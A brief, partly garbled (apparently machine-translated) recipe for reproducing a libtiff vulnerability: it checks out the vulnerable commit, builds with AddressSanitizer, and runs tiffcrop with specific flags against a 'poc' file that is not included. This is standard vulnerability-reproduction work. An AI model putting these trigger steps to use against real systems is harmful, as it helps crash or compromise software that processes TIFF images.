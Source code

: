Vulnerability patch： https://gitlab.com/libtiff/libtiff/-/commit/69818e2f2d246e6631ac2a2da692c3706b849c38
vulnerable version： 6366e8f7

# For the first patch,check outGo to the corresponding targetcommitPreviouscommit，conductpoctrigger
git checkout 6366e8f7


# Generate configuration files
autoreconf -fiv

# It should be run now configure It's
./configure CFLAGS="-O0 -g -fsanitize=address" CXXFLAGS="-O0 -g -fsanitize=address" LDFLAGS="-fsanitize=address"
make
make install


cp ./libtiff/.libs/libtiff*.so* /usr/local/lib/
cp ./libtiff/.libs/libtiff*.a /usr/local/lib/
export LD_LIBRARY_PATH=/usr/local/lib:$LD_LIBRARY_PATH

# trigger
tiffcrop -E l -Z 12:50,12:99 -e divided  -R 270  poc  /dev/null